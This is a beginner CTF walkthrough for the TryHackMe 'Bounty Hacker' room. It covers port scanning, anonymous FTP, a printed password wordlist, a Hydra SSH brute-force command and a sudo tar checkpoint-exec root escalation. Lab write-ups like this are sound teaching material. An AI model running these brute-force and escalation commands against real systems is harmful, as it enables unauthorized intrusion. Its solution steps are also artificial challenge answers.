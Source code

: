 # Bounty Hacker

![Main Characters From Cowboy Bebop](./Assets/crew.jpg)

This [Cowboy Bebop](https://en.wikipedia.org/wiki/Cowboy_Bebop "Cowboy Bebop Wikipedia") themed room created by [Sevuhl](https://twitter.com/sevuhl "Sevuhls Twitter") is one of the many free [CTF's](https://en.wikipedia.org/wiki/Capture_the_flag_(cybersecurity) "CTF Wikipedia") available on the [TryHackMe](https://tryhackme.com "TryHackMe Website") website aimed at begginers.

---


## Deploy the machine.

Start the attack box or connect to TryHackMe via VPN. If you don't know how to connect with the VPN, check out the [OpenVPN room](https://tryhackme.com/room/openvpn "OpenVPN Room").

## Find open ports on the machine

Start by navigating to the website to check for connectivity or alternatively [ping](https://www.geeksforgeeks.org/ping-command-in-linux-with-examples/ "Ping Information") the IP.

```bash
ping <IP Address>
```

Once we confirm the machine is up we can start a port scan using [nmap](https://www.freecodecamp.org/news/what-is-nmap-and-how-to-use-it-a-tutorial-for-the-greatest-scanning-tool-of-all-time/ "FreeCodeCamp Tutorial For NMAP") to see what services are running on the machine.

```bash
nmap -A <IP Address>
```

The results of this nmap scan return three open ports (21, 22, 80) and the services they're currently running (ftp, ssh, http).

 But one of these sticks out and that is:

* 21/tcp open  ftp     vsftpd 3.0.3
    * ftp-anon: Anonymous FTP login allowed (FTP code 230)

[Port 21](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers "Wikipedia List Of Port Numbers And Services") is open and allows Anonymous login for the [FTP](https://www.linkedin.com/pulse/pentesting-exploiting-ftp-servers-kubotor "Article on FTP, and anonymous login") service.

Type the following command in your terminal and when it asks for your name use the word "**anonymous**"

```bash
ftp <IP Address>
```

After logging in execute the following command to list all files in the directory:

```bash
ls -la
```

You should see the following output:

* -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
* -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

To download these to your current directory type:

```bash
get locks.txt
get task.txt
```

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## Who wrote the task list?

Reading the [task.txt](./Assets/task.txt "task.txt file") gives us the answer to this step.

```text
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## What service can you bruteforce with the text file found?

The other file we found [(locks.txt)](./Assets/locks.txt "locks.txt") was what looked like a password dictionary we could use for Lins SSH login.

```txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Executing the following command in your terminal will [bruteforce the SSH](https://www.linuxfordevices.com/tutorials/linux/hydra-brute-force-ssh "Article On SSH Brute Force") password for Lin using [Hydra](https://en.wikipedia.org/wiki/Hydra_(software) "Hydra Wikipedia").

```bash
hydra -l lin -P </path/to/wordlist> <IP ADDRESS> ssh
```


## What is the users password?

Use the [locks.txt](./Assets/locks.txt "Password Dictionary") file as the wordlist to Hydra. Brute force the SSH with "lin" as the username.

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## user.txt

Once you have the password SSH into lins account.

```bash
ssh lin@<IP Address>
```

Execute the following commands to list all files within the current directory.

```bash
ls -la
```

You should see the following output:

* drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
* drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
* -rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

Use the cat command to read the user.txt file where you'll find the flag.

```bash
cat user.txt
```

### [BACK TO TOP](#bounty-hacker "Top Of Page")

---

## root.txt

Now that we're in the system we need to escalate our priviliges to gain access to root and find the last flag.

We can start by checking if the current user (lin) has any sudo priviliges. This can be done with the following command:

```bash
sudo -l
```

Which returns the following:

* User lin may run the following commands on bountyhacker:
    * (root) /bin/tar

Looking up the [tar binary on GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo "GTFOBins Tar Entry") we see the following command for getting root privilege:

"**sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh**"

You should now be root. Verify this by using the following command:

```bash
whoami
```

Now to finish the room, run the following commands to find and read the flag file:

```bash
ls -la /root
cat /root/root.txt
```

Breaking this down-

If we lookup the help file on tar:

```bash
tar --help
```

We can find out what the -cf flag does:

> tar -cf archive.tar foo bar  # Create archive.tar from files foo and bar.

What the --checkpoint=1 flag does:

> --checkpoint[=NUMBER]  display progress messages every NUMBERth record (default 10)

And finally what the --checkpoint-action-=exec=/bin/sh flag does:

> --checkpoint-action=ACTION   execute ACTION on each checkpoint

We're using [tar](https://linuxhint.com/what-is-tar-file/ "Article On Tar Files") as sudo to create a tar from [/dev/null](https://linuxhint.com/what_is_dev_null/ "Article On Using /dev/null") to /dev/null and using the checkpoint action to [exec](https://phoenixnap.com/kb/linux-exec "Article On The Linux Exec Command") a shell and maintain the privilige.

---

### [BACK TO TOP](#bounty-hacker "Top Of Page")